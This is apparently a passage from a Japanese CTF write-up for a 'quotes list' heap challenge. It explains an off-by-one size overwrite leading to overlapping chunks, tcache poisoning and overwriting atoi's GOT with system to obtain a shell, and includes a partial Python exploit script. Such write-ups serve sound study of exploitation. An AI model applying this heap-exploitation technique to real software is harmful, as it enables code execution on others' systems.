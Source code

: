 分かりにくいと思うのでもう少し丁寧に説明します。
次のように3つ領域を確保したとします。
```c
p1 = malloc(0x18);
p2 = malloc(0x18);
p3 = malloc(0x18);
```
p1へのoff-by-oneのせいでp2のサイズ情報が0x21から0x71に上書きされたとしましょう。
この状態でp2をfreeすると、もちろんサイズ0x71のままtcacheにリンクされます。
ここで
```
p4 = malloc(0x68);
```
すると、p4にはtcacheから取り出されたアドレスp2が入ります。
p4はサイズ0x68分だけ使い放題ですが、その領域にはp3がまるごと含まれます。

後はシンプルにtcache poisoningができます。
具体的にはp3をfreeして、p4のeditでp3のfdを好きなアドレスに設定し、2回mallocすれば2回目に好きなアドレスを返すことができます。
今回はatoiのGOTを返すようにしてsystemのアドレスを書き込みました。
あとはbabyheapと同様にメニューの選択肢で`/bin/sh\x00`と入力すればシェルが奪えます。

```python
from ptrlib import *

def create_quote(size, data):
    sock.recvuntil("> ")
    sock.sendline("1")
    sock.recvuntil("Length: ")
    sock.sendline(str(size))
    sock.recvuntil("Content: ")
    sock.send(data)

def edit_quote(index, data):
    sock.recvuntil("> ")
    sock.sendline("2")
    sock.recvuntil("Index: ")
    sock.sendline(str(index))
    sock.recvuntil("Content: ")
    sock.send(data)

def show_quote(index):
    sock.recvuntil("> ")
    sock.sendline("3")
    sock.recvuntil("Index: ")
    sock.sendline(str(index))
    sock.recvuntil("Quote: ")
    return sock.recvline().rstrip()

def delete_quote(index):
    sock.recvuntil("> ")
    sock.sendline("4")
    sock.recvuntil("Index: ")
    sock.sendline(str(index))

libc = ELF("./libc.so.6")
elf = ELF("./original_quotes_list")
sock = Socket("127.0.0.1", 2005)

# Leak libc base
create_quote(0x1000, 'A') # index=0
create_quote(0x28, 'B')   # index=1
create_quote(0x28, 'C') # index=2
create_quote(0x28, 'D') # index=3
delete_quote(0)
create_quote(0x28, 'A' * 8) # index=0
```